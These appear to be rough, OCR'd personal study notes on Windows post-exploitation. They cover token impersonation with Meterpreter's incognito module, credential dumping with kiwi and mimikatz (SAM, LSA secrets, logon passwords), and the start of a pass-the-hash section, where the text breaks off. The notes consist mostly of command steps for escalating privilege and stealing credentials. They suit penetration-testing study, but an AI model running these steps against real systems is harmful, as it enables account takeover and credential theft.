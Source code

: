       
    
      
    

  

  

- ==_Windows Privilege Escalation:Token Impersonation With Incognito_==

> windows access tokens ⇒ is acore element of the authentication proccess on windows are created and managed by the local security authority subsystem services ( LSASS ) .

> The purpose of using windows access tokens is to reduce the number of process of entering the user of his password to identify his access to his account

> Example of that , if the windows access token dose not exisit , we should enter the username and password each time we want to login , then we need to enter it again when we want to open any program on system

- _==Exploit Privilege Escalation:Token Impersonation With Incognito==_
    
    - after we exploit on meterpreter session
    - `getprivs` ⇒ to see our privis , ==_if we see one of this privis is SeImpersonatePrivilege_==
    - `load incognito` && `list_tokens -u` ⇒ we will see we have to type of tokens delegation (active) and Impersonation (unactive)
    - so on delegation we can see the administrator token , so copy it ,then ⇒ `impersonate_token “<administrator token >”`
    
    > That will imersonate our token from a basic user to administrator token , then we will be a administator
    
      
    

  

  

- ==Dumping Hashes With Mimikatz==

- _Dumping Hashes With Mimikatz_
    
    - `load kiwi` && `help`
    - `creds_all` ⇒ to retrieve all credentials
    - `lsa_dump_sam` ⇒ dump lsa sam database
    - `lsa_dump_secrets` ⇒ :(
    - `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` && `shell` && `./mimikatz.exe`
    - `sekurlsa::logonpassword` ⇒ to dump all paswword
    
      
    
      
    

  

  

- ==Pass-the-Hash With PSExec==

> ==pass_the_hash attack== ⇒ is an exploitation techinique that involves capturing or harvesting NTLM hashes or clear passwords and utilizing them to authenticate with target legitimately .

> u can use PsExec moudule to authenticate with the target system via SMB

- ==Exploit Pass_the_Hash==
    